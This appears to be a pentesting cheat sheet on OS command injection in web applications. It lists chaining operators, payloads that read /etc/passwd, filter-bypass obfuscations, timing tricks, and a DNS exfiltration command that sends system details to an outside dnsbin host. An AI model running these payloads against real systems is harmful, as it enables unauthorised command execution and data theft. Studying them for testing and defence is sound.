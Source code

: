 ```yaml
---
menu: Command Injection
title: Command Injection - Web Applications Pentesting
---
```


# Command Injection

Command injection is an attack
in which the attacker
executes arbitrary commands
on the host OS
via a vulnerable application.
Command injection attacks are possible
when an application
passes unsafe user-supplied data
to a system shell.
[^command-injection-owasp]

{{<note>}}
Commands are usually executed with the privileges of the vulnerable application.
{{</note>}}

## Command Chaining

```sh
<input>; ls
<input>& ls
<input>&& ls
<input>| ls
<input>|| ls
```

{{<note>}}
Also try:
- Prepending a flag or parameter.
- Removing spaces (`<input>;ls`).
{{</note>}}

### Chaining Operators

Windows and Unix supported.

|      | Syntax          | Description                                           |
| ---- | -------------   | -------                                               |
| `%0A`| `cmd1 %0A cmd2` | Newline. Executes both.                               |
| `;`  | `cmd1 ; cmd2`   | Semi-colon operator. Executes both.                   |
| `&`  | `cmd1 & cmd2`   | Runs command in the background. Executes both.        |
| `|`  | `cmd1 | cmd2`   | PIPE operator. Sends `cmd1`'s output as `cmd2` input. |
| `&&` | `cmd1 && cmd2`  | AND operator. Executes `cmd2` if `cmd1` succeds.      |
| `||` | `cmd1 || cmd2`  | OR operator. Executes `cmd2` if `cmd1` fails.         |

## I/O Redirection

```sh
> /var/www/html/output.txt
< /etc/passwd
```

## Command Substitution

Replace a command output with the command itself.[^substitution-gnu]

```sh
<input> `cat /etc/passwd`
```

```sh
<input> $(cat /etc/passwd)
```

## Filter Bypassing

### Space filtering [^spaceless-ifs]

#### Linux

```sh
cat</etc/passwd
# bash
${cat,/etc/passwd}
cat${IFS}/etc/passwd
v=$'cat\x20/etc/passwd'&&$v
IFS=,;`cat<<<cat,/etc/passwd`
```

#### Windows [^spaceless-windows-rce]

```ps
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Slash (`/`) filtering

```sh
echo ${HOME:0:1} # /
cat ${HOME:0:1}etc${HOME:0:1}passwd
```

```sh
echo . | tr '!-0' '"-1' # /
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### Command filtering

Quotes.

```sh
w'h'o'am'i
w"h"o"am"i
```

Slash.

```sh
w\ho\am\i
/\b\i\n/////s\h
```

At symbol.

```sh
who$@ami
```

Variable expansion.

```sh
v=/e00tc/pa00sswd
cat ${v//00/}
```

Wildcards.

```ps
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```

## Time Based Data Exfiltration [^time-based-rce]

```sh
time if [ $(uname -a | cut -c1) == L ]; then sleep 5; fi
```

## DNS Based Data Exfiltration [^dns-bin]

- [pingb.in](//pingb.in)
- [dnsbin.zhack.ca](//dnsbin.zhack.ca)

`dnsbin` Example:

```sh
host $(uname -a).c2cebb6a3678849a2eee.d.zhack.ca
```


[^command-injection-owasp]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^substitution-gnu]: “Command Injection | OWASP.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/attacks/Command_Injection.
[^spaceless-windows-rce]: https://twitter.com/bugbountynights/status/860102244171227136
[^spaceless-ifs]: https://twitter.com/asdizzle_/status/895244943526170628
[^time-based-rce]: Pobereznicenco, Dan. “Exploiting Timed Based RCE – Security Café.” Security Café, 28 Feb. 2017, https://securitycafe.ro/2017/02/28/time-based-data-exfiltration/.
[^dns-bin]: ettic-team. “GitHub - Ettic-Team/Dnsbin: The Request.Bin of DNS Request.” GitHub, https://github.com/ettic-team/dnsbin.
